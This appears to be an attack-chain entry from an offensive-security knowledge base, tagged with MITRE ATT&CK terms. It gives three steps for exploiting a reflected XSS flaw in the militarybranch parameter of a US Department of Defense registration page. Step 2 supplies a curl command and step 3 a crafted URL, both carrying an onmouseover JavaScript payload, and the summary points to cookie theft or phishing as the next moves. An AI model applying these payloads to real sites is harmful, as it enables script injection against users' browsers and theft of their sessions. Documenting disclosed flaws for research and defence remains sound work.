

---
tags:
  - xss
  - reflected-xss
  - web-vulnerability
  - dod
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-Vulnerable-Registration-Page]]'
  - '[[procedures/Inject-XSS-Payload-in-militarybranch]]'
  - '[[procedures/Trigger-and-Observe-XSS-Execution]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:15:53.511Z'
description: >-
  A multi-step attack chain exploiting a reflected XSS vulnerability in the
  militarybranch GET parameter on a U.S. Department of Defense registration
  page, allowing arbitrary JavaScript execution in victims' browsers.
skill_level: beginner
impact_level: high
id: 805f536b-e36f-40ef-9387-0299a1128bbf
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS Exploitation in DoD Registration Page militarybranch Parameter

Multi-stage attack chain demonstrating exploitation of a reflected XSS vulnerability on a U.S. Department of Defense subdomain's registration page.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (manual via browser or curl)

### Target Environment

- Web application on public DoD subdomain
- No authentication required
- GET parameters in URL

### Initial Access Requirements

- Internet access to the target URL
- No credentials needed
- Victim browser for execution

## Detailed Attack Procedures

### Step 1: Access Registration Page
procedure: [[procedures/Access-Vulnerable-Registration-Page]]

**Objective**: Navigate to the publicly accessible registration page to confirm the endpoint is reachable and the militarybranch parameter is reflected.

**Instructions**: Open a web browser and navigate to the target URL: https://target-dod-subdomain.com/path/user/NextRequestAccount.action. Observe the page loads without authentication and includes form fields for registration details.

**Expected Output**: The registration form page renders, showing fields like firstName, militarybranch, etc.

**Success Indicators**:
- Page loads successfully
- No login prompt

### Step 2: Inject XSS Payload in militarybranch
procedure: [[procedures/Inject-XSS-Payload-in-militarybranch]]

**Objective**: Modify the GET request by appending a malicious XSS payload to the militarybranch parameter to bypass sanitization.

**Instructions**: Construct the URL with the payload. Use a browser to manually edit the URL or execute [[commands/curl-send-xss-payload]] to test:

```bash
curl "https://target-dod-subdomain.com/path/user/NextRequestAccount.action?militarybranch=%3CHTML%20onmouseover=alert(%27XSSSuccess!%27)%3Ex//&firstName=test&middleName=test&lastName=test&email=test@example.com&title=test&department=&organization=&ship=test&orgid=&location="
```

**Expected Output**: The server responds with the page reflecting the unsanitized parameter.

**Success Indicators**:
- Parameter reflected in response without encoding
- No errors in page load

### Step 3: Trigger and Observe XSS Execution
procedure: [[procedures/Trigger-and-Observe-XSS-Execution]]

**Objective**: Load the crafted URL in a browser to execute the JavaScript payload and confirm arbitrary code execution.

**Instructions**: Visit the full URL with the payload in a browser: https://target-dod-subdomain.com/path/user/NextRequestAccount.action?militarybranch=%3CHTML%20onmouseover=alert(%27XSSSuccess!%27)%3Ex//&firstName=test&middleName=test&lastName=test&email=test@example.com&title=test&department=&organization=&ship=test&orgid=&location=. Move the mouse over the reflected element to trigger the onmouseover event, or use [[commands/curl-send-xss-payload]] to fetch and inspect the response for payload presence.

**Expected Output**: A JavaScript alert box displays 'XSSSuccess!' upon interaction.

**Success Indicators**:
- Alert box pops up
- JavaScript executes in browser context

## Attack Chain Summary

### Key Achievements

1. Identified and accessed a public DoD registration endpoint
2. Injected and reflected an XSS payload without sanitization
3. Achieved arbitrary JavaScript execution, enabling potential cookie theft or phishing

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
